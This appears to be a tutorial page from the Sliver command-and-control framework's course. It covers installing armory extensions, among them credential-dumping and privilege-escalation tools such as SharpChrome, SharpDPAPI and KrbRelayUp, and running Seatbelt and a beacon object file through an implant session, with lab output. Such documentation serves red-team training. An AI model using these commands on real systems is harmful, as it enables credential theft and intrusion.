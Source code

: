 # This course is intented for the 1.6 version of Sliver, which is not yet published

The Sliver armory is used to install and maintain third party extensions and aliases within sliver. The full list of available extensions can be found at https://github.com/sliverarmory/armory, keep in mind this is community maintained so not all modules are necessarily up to date. 

You can download all configured extensions/aliases using the armory command.

```bash
[server] sliver > armory install all
? Install 18 aliases and 84 extensions? Yes
[*] Installing alias 'SharpSecDump' (v0.0.1) ... done!
[*] Installing alias 'SharpChrome' (v0.0.1) ... done!
[*] Installing alias 'SharpDPAPI' (v0.0.1) ... done!
[*] Installing alias 'SharpMapExec' (v0.0.1) ... done!
[*] Installing alias 'KrbRelayUp' (v0.0.1) ... done!
[*] Installing alias 'SharpRDP' (v0.0.1) ... done!
[*] Installing alias 'SharpUp' (v0.0.1) ... done!
[*] Installing alias 'SharpView' (v0.0.1) ... done!
[*] Installing alias 'SharPersist' (v0.0.1) ... done!
[*] Installing alias 'Sharp WMI' (v0.0.2) ... done!
...
[*] All packages installed
```

These commands can then be used in the context of a session or beacon similarly to other commands, with a couple caveats.

Let’s go ahead and run our first assembly.

```bash
[server] sliver (UNABLE_PRIDE) > seatbelt " WindowsCredentialFiles"

[*] seatbelt output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.1         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

====== WindowsCredentialFiles ======

  Folder : C:\Users\defaultuser0\AppData\Local\Microsoft\Credentials\

   ...
```

As you can see Sliver ran the Seatbelt assembly and provided us with the output of our command.

## Bof’s

Beacon object files are loaded using trustedsec’s coffloader, when you run a bof command the loader will first be loaded into memory and is used to run whichever bof you choose. From an operator’s perspective bof’s are similar to basic sliver commands.

```bash
[server] sliver (UNABLE_PRIDE) > sa-whoami

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName		SID
====================== ====================================
test.local\tester

GROUP INFORMATION                                 Type                     SID                                          Attributes
================================================= ===================== ============================================= ==================================================
test.local\None                              Group                    S-1-5-21-3109228153-3872411817-1195593578-513 Mandatory group, Enabled by default, Enabled group,
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114
BUILTIN\Administrators                            Alias                    S-1-5-32-544
BUILTIN\Performance Log Users                     Alias                    S-1-5-32-559                                  Mandatory group, Enabled by default, Enabled group,
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group,
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account                        Well-known group         S-1-5-113                                     Mandatory group, Enabled by default, Enabled group,
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\NTLM Authentication                  Well-known group         S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group,
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group,

Privilege Name                Description                                       State
============================= ================================================= ===========================
SeShutdownPrivilege           Shut down the system                              Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled
SeUndockPrivilege             Remove computer from docking station              Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
SeTimeZonePrivilege           Change the time zone                              Disabled
```

Since these payloads are run in-process, they have similar advantages and drawbacks as in-process assemblies meaning no new processes are spawned on execution, but a crash risks loosing the implant.
